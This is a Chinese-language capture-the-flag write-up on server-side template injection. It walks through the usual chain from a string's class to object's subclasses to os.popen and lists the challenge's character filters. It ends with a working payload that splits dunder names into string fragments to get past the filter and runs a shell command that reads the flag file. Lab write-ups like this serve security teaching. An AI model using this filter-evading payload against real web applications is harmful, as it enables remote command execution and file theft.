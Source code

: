 **SSTI漏洞利用基本流程**

获取当前类 -> 获取其object基类 -> 获取所有子类 -> 获取可执行shell命令的子类 -> 获取可执行shell命令的方法 -> 执行shell命令

### 题解
发现对关键字和一些符号有过滤

```plain
+ - * / . {{ }} __ : " \
```

获取''的类

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731821091968-b57a671e-5b41-41de-aaa0-fed672ac826b.png)

再获取基类‘object’

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731821183133-e0faf2d1-f446-483d-aed0-7b47715480de.png)

再获取‘object’的所有派生类

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731821505936-04dd4a83-9a0a-4ed0-8023-0d771dd5f028.png)

在网页里看不下来，到 burp 里看

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731821521645-e7565e8b-0c60-4cc2-937b-010c8c7db68d.png)

寻找可以 RCE 的类，使用数组序号选择这个类

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731821707338-751a9eaa-9ad9-43cc-b52d-c53b67b83c07.png)

然后创建类，然后 globals 获取所有模块和方法，寻找可以读代码的方法

 **os.popen() 方法用于从一个命令打开一个管道。**  

因为禁用了/，所以找方法进入根目录

**使用环境变量**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731823845600-a161606b-02f4-49d2-80c7-5522eb1820d4.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731821780964-c841daf5-6d90-4a1c-8a65-b9e6deccc411.png)



![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731821851494-27ea41df-e0b1-4014-915d-f9674127a095.png)

最终输入如下

```php
BaseCTF{%print(''['_''_cla''ss_''_']['_''_ba''se_''_']['_''_subcl''asses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']['cd $OLDPWD;cat flag']['re''ad']())%}
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731822491307-f54972de-ffb4-4bb3-a5b6-f8e5079054ee.png)


